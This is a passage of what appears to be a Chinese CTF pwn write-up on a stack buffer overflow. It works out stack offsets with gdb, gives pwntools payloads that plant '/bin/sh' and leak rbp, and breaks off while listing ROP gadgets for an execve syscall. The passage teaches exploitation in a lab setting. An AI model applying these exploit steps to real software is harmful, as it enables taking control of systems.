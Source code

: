 想想当时程序调用的栈帧是什么样的，什么内容是跟栈的地址有关的。

```
高地址↑
buf in vlun

rbp for main
rip for main
rbp for main's father function
rip for main's father function
低地址↓ 
```

如此我们也可以清楚看到，首先main的rbp是肯定被我们覆盖了的(PS 虽然现在好像是没有的)，然后后面还有一个调用main函数的那个函数的rbp，那个可以确定栈的地址，能输出这个之后我们就可以开始算偏移了。

gdb调试算算rbp与它们之间的偏移，这里需要注意由于栈不平衡的原因，我们需要手动调一下rip让程序不要异常退出，然后我们调试到leave指令可以观察到此时的栈。

[外链图片转存失败,源站可能有防盗链机制,建议将图片保存下来直接上传(img-hVFUjP8q-1622116149409)(https://i.loli.net/2021/05/25/9jhLFiKV2cxZ3EA.png)]

在地址0x7fffffffde20的地方存了__libc_start_main函数的rbp=0x7fffffffdf28，那么计算一下偏移就是264，当前的rsp是main函数的rsp是vlun函数的rbp，所以我们泄露出来的这个地址与vlun函数的rbp偏移了264字节，然后再有16字节的缓冲区，如果我们再缓冲区开始写入`/bin/sh`字符串的话那么偏移就有280字节的大小。

然而这些应该是第二次溢出考虑的问题，这里只是分析一下泄露地址的可行性。

第一次的payload比较简单

```
payload=b'/bin/sh\0'*2+p64(main) 
```

然后接受准备接收rbp，但是在改rip的过程中发现这里还是有0x20个字节才能到rbp的，但是我能直接略过rbp覆盖rip就有点离谱，就不知道main的rbp是存在哪了，也许是存在rip后面了。这个我也不太能讲的清楚，希望有师傅明白的话能为我解答一下，感激不尽。

```
p.sendline(payload)
p.recv(0x20)
rbp=u64(p.recv(8))
bin_sh=rbp-280 
```

那么第一次溢出完美的构造了`/bin/sh`字符串并且获得了它的地址。

### 第二次溢出

第二次溢出要准备的东西就有点多了。

#### 寻找gadget

我们需要的gadget有

```
pop rax
syscall
pop rdi
pop rsi
pop rdx 
```
